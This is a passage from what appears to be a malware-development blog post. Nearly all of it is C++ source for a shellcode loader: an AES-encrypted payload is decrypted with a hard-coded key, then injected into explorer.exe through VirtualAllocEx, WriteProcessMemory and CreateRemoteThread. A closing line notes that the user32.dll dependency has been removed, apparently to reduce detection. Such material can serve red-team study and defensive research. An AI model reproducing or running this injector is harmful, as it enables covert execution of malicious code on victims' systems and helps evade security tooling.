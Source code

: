 ```cpp
	unsigned char shellcode[] = "\x9c\xad\x1d\x5b\x52\x35\xdf\x9e\x15\xc3\xa4\x94\xb0\xf6\xd5\x1a\x14\x82\x9b\xc2\xc5\x40\x9e\x03\x45\xdf\x0d\x85\xfc\xff\xc2\xf7\x37\x84\x4b\xa1\x5f\x07\xa3\xf5\xd5\xe3\x54\xe4\x33\x84\x24\xf9\xaf\xbd\xc1\x53\xc9\x87\x4c\xc2\x12\xc7\x24\x6c\x22\xe9\x41\xb4\x47\x9c\xfa\x4c\x20\x8f\x57\x17\x29\x00\x10\x40\x83\xff\xc8\xfe\xa5\x87\x1f\xfd\xec\x30\x72\x07\x71\x59\xf8\x05\xda\x49\x12\xdf\x0a\xc5\xb8\x65\x99\x65\xfa\x5f\xc4\xc3\x8b\x40\x1e\xbe\xf1\x55\xde\x4f\x3a\x65\x2f\x14\xcc\x29\x9d\x7d\x17\xd0\x55\x99\x9e\xc3\x0d\xd7\xbb\xa3\x00\x34\x79\x32\xbe\x16\x66\xf6\xa4\xbc\xda\x40\x06\x7b\x8d\x56\x79\x6b\x21\x79\xd5\xf9\x55\x52\xe2\xd5\x8c\x34\xfd\x1c\x26\xc2\xf5\xd4\x6b\xca\xc3\x74\x91\x9d\xe4\xa2\xf4\x71\x42\x90\x2c\x6a\x11\x66\xf8\x56\x8f\x3c\x26\xa4\x27\x89\x6f\xc2\x02\x48\x53\xed\x08\x32\xa6\x48\x0f\x9a\x39\x0e\x5d\x38\xb4\xa2\x30\x6d\x27\x94\x80\x8c\x06\xa8\x86\x5f\x0b\xda\x44\x83\x51\x55\xfc\xb9\xe2\xcb\xbc\x95\xc8\xd6\x18\xd7\x1b\x04\x3d\xfb\x53\x9b\x57\xa8\xb2\xab\xe7\x27\x3b\xd2\xcb\x53\x20\x11\xcc\x5f\xaf\x31\xcf\xba\x83\xd7\xc7\xa8\xf7\x0c\x78\x6d\x7f\x46\x99\xd7\x33\x23";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, shellcode, shellcodeSize);

	// PID of explorer.exe
	DWORD pid = 6028;
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	wprintf(L"[+] Handle obtained: 0x%p\n", hProcess);

	PVOID baseAddress = NULL;
	baseAddress = VirtualAllocEx(hProcess, NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	wprintf(L"[+] Memory allocated: 0x%p\n", baseAddress);

	WriteProcessMemory(hProcess, baseAddress, shellcode, shellcodeSize, NULL);
	wprintf(L"[+] Memory written: %zu bytes\n", shellcodeSize);

	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)baseAddress, NULL, 0, NULL);
	wprintf(L"[+] Thread created: 0x%p\n", hThread);
	wprintf(L"[+] Payload executed!");
}
```

Now, the dependency with `user32.dll` has been removed.

[![No user32.dll](/static/img/2022-10-17-independent-malware/no-user32-dll.png)](/static/img/2022-10-17-independent-malware/no-user32-dll.png)
